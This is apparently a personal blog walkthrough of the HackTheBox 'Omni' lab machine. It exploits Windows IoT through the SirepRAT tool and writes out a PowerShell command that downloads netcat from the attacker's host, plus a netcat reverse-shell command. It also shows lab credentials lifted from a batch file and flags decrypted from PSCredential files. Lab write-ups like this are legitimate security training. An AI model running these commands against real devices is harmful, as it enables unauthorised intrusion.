 ```yaml
---
title: HackTheBox Omni Write-Up
tags: 
- writeup
- hackthebox
image: /images/omni/info.png
---
```


Remember when I said that Tabby was the shortest box I have solved? Yea.. Redact that. We have a new box that just made it to the top. As the info card says that the OS is unknown. To be honest I didn't notice any differences than a normal windows box. It was just another powershell practice session for me. All being said, it doesn't mean I disliked the box. I like all the boxes because in the end they are just puzzles that vary in difficulty. And did I ever tell you I **love** puzzles? Enough rant... I can't wait to root another box so lets get done with this write-up.

<!--more-->

<img src="/images/omni/info.png" />

Kick off the nmap scan.

{%highlight text%}
nmap -T4 -Pn -A 10.10.10.204

Starting Nmap 7.60 ( https://nmap.org ) at 2020-09-14 09:50 IST
Nmap scan report for 10.10.10.204
Host is up (0.28s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
135/tcp  open  msrpc   Microsoft Windows RPC
8080/tcp open  upnp    Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
{%endhighlight%}

The only interesting port I see is the web server at port 8080. Browsing...

<img src="/images/omni/login.png" />

this is the first and last time I see this page. We see a clue right off the bat "Windows Device Portal". I look it up and fair enough I find it is a web interface for Windows iot devices. I find some documentation about default creds but that didn't work. 
[Reference](https://docs.microsoft.com/en-us/windows/iot-core/manage-your-device/deviceportal)

After some more research I find a tool called SirepRAT made by SafeBreach Labs. [link to the tool](https://github.com/SafeBreach-Labs/SirepRAT).

I took a look at the python script and see that it is just sending/receiving the data using sockets but that was about it. I didn't understand how the tool works due to my limited knowledge about IOTs but that is something I think is an important part of being in this field i.e accepting that I don't know everything and that is alright.

We have unauthenticated RCE already. Today is a good day. So I read the instruction using th "--h" parameter. I see we can download, upload, get system info and run commands. First I tried uploading a netcat binary and tried to run using the launch commmand feature. Nope.

I didn't see any requests on my python server for any file. So I try to use just the launching commands feature to upload the binary and execute it. I know 3 methods to do so. Fisrt is using curl, second is using certutil and third is using powershell's invoke-webrequest command. The power shell method worked. 

{%highlight text%}
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/C Powershell Invoke-WebRequest http://YourIP:port/nc64.exe -OutFile C:\Windows\Temp\nc64.exe" --vv

{%endhighlight%}

We see a request on the python server. Next is to execute the netcat and get a reverse shell. After playing around a bit I get it to work. Remember to start a netcat listener in another tab.

{%highlight text%}
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --cmd "C:\Windows\System32\cmd.exe" --args "/C C:\Windows\Temp\nc64.exe YourIP 1234 -e powershell.exe" --vv
{%endhighlight%}

And we have a shell. Doing the starting enumeration we see that "whoami" is not available, so we use `echo %username%` instead.

{%highlight text%}
C:\>echo %username%
echo %username%
omni$

C:\>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            app                      DefaultAccount           
DevToolsUser             Guest                    sshd                     
WDAGUtilityAccount

PS C:\> $Env:path
$Env:path
C:\windows\system32;C:\windows;C:\windows\System32\OpenSSH\;C:\windows\System32\Wbem;C:\windows\System32\WindowsPowerShell\v1.0\

{%endhighlight%}

Ohh...! Do you see it? OpenSSH is installed. But I didn't see anything in the nmap scan. So as it says I browse to `C:\windows\System32\OpenSSH\`
and see a bunch of binaries. I try to run the "sshd.exe" binary which is used to start the ssh server and it just made the shell unresponsive **BUT** now when I do something "netstat -aon" or try to connect to a random user using ssh from my machine I can see that it doesn't say connection refused. If the ssh server was not active then it would have given me that error.

I need to find either the keys or the passwords for the users. I did find some keys but they didn't work. Now comes the most annoying part of this box which is opening each and every directory to information. I spent most of my time solving the box here.

I found that I can already read the user and root flags which are inside `C:\Data\Users\app` and `\root` respectively. It looked like they encrypted though. I do some research again to find [this awesome article](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx).

The PSCredential class is used to create objects by taking username and password from the user. After that this object can be passed to other processes that require credentials. In our case, this class was used to make objects with flag as password and stored inside user.txt file. When I follow the instruction given in the above mentioned article I face some crypto errors which are probably because I am not privileged enough to perform those actions.  

Fast-Forward 3 hours I finally find a hidden file inside `C:\program files\windowspowershell\modules\packagemanagement` named "r.bat".
I print out its contents and we have hit the jackpot!

{%highlight text%}
PS C:\program files\windowspowershell\modules\packagemanagement> cat r.bat
cat r.bat
@echo off

:LOOP

for /F "skip=6" %%i in ('net localgroup "administrators"') do net localgroup "administrators" %%i /delete

net user app mesh5143
net user administrator _1nt3rn37ofTh1nGz

ping -n 3 127.0.0.1

cls

GOTO :LOOP

:EXIT
{%endhighlight%}

Now we have creds for the user "app" and "administrator". Next I try to ssh into these accounts.

{%highlight text%}
ssh app@10.10.10.204
app@10.10.10.204's password: 

Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.
 
app@omni C:\Data\Users\app>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Data\Users\app>ls


    Directory: C:\Data\Users\app


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/4/2020   7:28 PM                3D Objects
d-r---         7/4/2020   7:28 PM                Documents
d-r---         7/4/2020   7:28 PM                Downloads
d-----         7/4/2020   7:28 PM                Favorites
d-r---         7/4/2020   7:28 PM                Music
d-r---         7/4/2020   7:28 PM                Pictures
d-r---         7/4/2020   7:28 PM                Videos
-ar---         7/4/2020   8:20 PM            344 hardening.txt
-ar---         7/4/2020   8:14 PM           1858 iot-admin.xml
-ar---         7/4/2020   9:53 PM           1958 user.txt
{%endhighlight%}

It worked! Next I again try to follow the instruction given in [the article](https://mcpmag.com/articles/2017/07/20/save-and-read-sensitive-data-with-powershell.aspx).

{%highlight text%}
PS C:\Data\Users\app> $credential = Import-CliXml -Path  ./user.txt
PS C:\Data\Users\app> $credential.GetNetworkCredential().Password
7cfd50f6bc34db3204898f1505ad9d70
{%endhighlight%}

And we the user flag. Same thing for the administrator.

{%highlight text%}
ssh administrator@10.10.10.204
administrator@10.10.10.204's password: 

Microsoft Windows [Version 10.0.17763.107]
Copyright (c) Microsoft Corporation. All rights reserved.

administrator@omni C:\Data\Users\administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved. 

PS C:\Data\Users\administrator> ls 
 

    Directory: C:\Data\Users\administrator
 
 
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---         7/3/2020  11:23 PM                3D Objects
d-r---         7/3/2020  11:23 PM                Documents
d-r---         7/3/2020  11:23 PM                Downloads
d-----         7/3/2020  11:23 PM                Favorites
d-r---         7/3/2020  11:23 PM                Music
d-r---         7/3/2020  11:23 PM                Pictures
d-r---         7/3/2020  11:23 PM                Videos
-ar---         7/4/2020   9:48 PM           1958 root.txt

PS C:\Data\Users\administrator> $credential = Import-CliXml -Path  ./root.txt
PS C:\Data\Users\administrator> $credential.GetNetworkCredential().Password
5dbdce5569e2c4708617c0ce6e9bf11d
{%endhighlight%}

This box was a big confidence booster for me. I used to be afraid of windows machines but I am getting better. With this I have run out of all the easy boxes and next stop is medium boxes.